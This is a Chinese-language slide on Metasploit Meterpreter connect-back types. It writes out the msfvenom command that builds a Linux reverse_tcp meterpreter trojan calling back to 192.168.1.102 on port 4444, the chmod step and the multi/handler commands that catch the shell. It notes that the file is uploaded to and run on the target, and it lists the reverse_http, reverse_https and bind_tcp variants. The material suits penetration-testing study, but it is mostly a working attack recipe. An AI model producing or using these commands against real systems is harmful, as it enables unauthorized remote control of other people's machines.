

# meterpreter中常见的反弹类型
reverse_tcp：基于TCP的反向链接反弹shell, 使用起来很稳定
   生成一个Linux下反弹shell木马
         #msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.1.102 lport=4444  -f elf -o isshell
         当前目录下生成了isshell文件，增加可执行权限  chmod u+x isshell
  打开Metasploit，使用模块handler，设置payload，注意：这里设置的payload要和生成木马所用的payload一样
msf>use exploit/multi/handler
msf exploit(handler) >set payload linux/x86/meterpreter/reverse_tcp
设置下地址和端口，我们就开始监听了
msf exploit(handler) >set lhost x.x.x.x
msf exploit(handler) >set lport xx
msf exploit(handler) >exploit
       需要将生成的反弹shell上传到目标主机，并且运行该shell
reverse_http：基于http方式的反向连接  (payload:/windows/meterpreter/reverse_http)
reverse_https：基于http方式的反向连接  (payload:/windows/meterpreter/reverse_https)
bind_tcp: 基于TCP的正向连接shell  (linux/x86/meterpreter/bind_tcp)